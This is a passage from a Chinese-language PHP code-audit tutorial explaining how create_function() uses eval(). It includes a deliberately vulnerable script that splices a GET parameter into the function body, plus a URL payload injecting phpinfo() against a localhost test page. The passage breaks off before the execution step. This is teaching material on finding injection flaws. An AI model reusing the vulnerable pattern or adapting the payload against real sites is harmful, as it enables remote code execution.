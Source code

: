 ![image-20220831181952803](http://cdn.ayusummer233.top/img/image-20220831181952803.png)

分析：

`create_function()`会创建一个匿名函数(`lambda`样式) 。此处创建了一个叫`lambda_1`的函数，在第一个`echo`中显示出名字，并在第二个`echo`语句中执行了此函数。

create_function()函数会在内部执行 eval()，我们发现是执行了后面的`return`语句，属于`create_function()`中的第二个参数`string $code`位置。

因此，上述匿名函数的创建与执行过程等价于：

```php
<?php
function lambda_1($a,$b){
    return "ln($a) + ln($b) = " . log($a * $b);
}
?>
```

`create_function()`函数在代码审计中，主要用来查找项目中的代码注入和回调后门的情况，熟悉了执行流程，我们可以熟练的实现对代码注入的`payload`构造，从而进行漏洞挖掘和找出存在的缺陷。

### 实现代码注入的案例

#### 案例1：

```php
<?php
error_reporting(0);
$sort_by = $_GET['sort_by'];
$sorter = 'strnatcasecmp';
$databases=array('1234','4321');
$sort_function = ' return 1 * ' . $sorter . '($a["' . $sort_by . '"], $b["' . $sort_by . '"]);';
usort($databases, create_function('$a, $b', $sort_function));
?>
```

`payload`的构造：

```
http://localhost/test1.php?sort_by=%27%22]);}phpinfo();/*
```

![img](http://cdn.ayusummer233.top/img/1937992-20200528133704647-1679751324.png)

 

 

 

还原实际的组合过程：

```
$sort_function = ' return 1 * ' . $sorter . '($a["' . $sort_by '"]);}phpinfo();/*
```

匿名函数实际的执行：
